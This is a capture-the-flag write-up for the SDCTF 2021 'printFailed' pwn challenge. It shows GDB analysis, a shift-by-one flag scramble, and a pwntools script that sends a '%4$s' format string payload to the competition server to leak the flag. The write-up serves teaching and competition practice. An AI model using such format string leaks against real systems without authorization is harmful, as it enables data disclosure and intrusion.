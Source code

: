 ```yaml
---
layout: load_md
title: The White Circle | Sdctf 2021 | printFailed Writeup
desc: Check out our writeup for printFailed for Sdctf 2021 capture the flag competition.
image: images/twc_og_banner.jpg
ctf: Sdctf 2021
parent: sdctf_2021
category: pwn
challenge: printFailed
tags: "pwn, twh, format string"
date: 2021-05-10T00:00:00+00:00
last_modified_at: 2021-05-10T00:00:00+00:00
---
```



> Solved By : thewhiteh4t

* Right from the start we get a segfault on this binary

```bash
./printFailed
zsh: segmentation fault (core dumped)  ./printFailed
```

* Let's investigate in GDB

![](https://i.imgur.com/91Rzavz.png)

* It's trying to open **flag.txt** but it does not exist, I created the file and relaunched the binary and it works now

```bash
./printFailed
can you guess the scrambled flag?
yes
you guessed:
yes
wrong
```

* It prints the input, let's look into GDB again
* A scramble function is called soon after the file is read
* Here we can see the scrambled flag : 

![](https://i.imgur.com/itwobGI.png)

```
"tedug|g5l4`gm5h~\v", '\001' <repeats 22 times>
```

* this looks familiar

```
tedug|g5l4`gm5h~\v
sdctf{f4k3_fl4g}
```

* so the input is shifted by 1 character!
* let's try to input the scrambled flag in the local binary

```python
#!/usr/bin/env python3

from pwn import *

elf = ELF('./printFailed')

guess = b'tedug|g5l4`gm5h~\v' + b'\001' * 22

p = elf.process()
p.send(guess)
out = p.recv(4096)
print(out)
```

![](https://i.imgur.com/z5MuV9f.png)

* the scrambled flag works!
* but now the issue is that we don't know the actual flag so we cannot make a scrambled flag
* earlier we saw that the binary prints the input, this hints at `format string exploit`
* this article helped a lot in figuring out the way forward
* https://nikhilh20.medium.com/format-string-exploit-ccefad8fd66b
* https://man7.org/linux/man-pages/man3/printf.3.html

```
%s   -> string
%2$s -> 2nd argument
%3$s -> 3rd argument
```

* I tried them one by one and `%4$s` leaks the scrambled flag! 

![](https://i.imgur.com/kPVOxuG.png)

* Here is the final script and output :

```python
#!/usr/bin/env python3

from pwn import *

host = 'printf.sdc.tf'
port = 1337

payload = b'%4$s'

conn = remote(host, port)
conn.send(payload + b'\n')
res = conn.recv(4096).decode().split('\n')[2]
conn.close()

print(res)

for char in res:
    print(chr(ord(char) - 1), end='')
```

**OUTPUT :**

![](https://i.imgur.com/DCmtMWZ.png)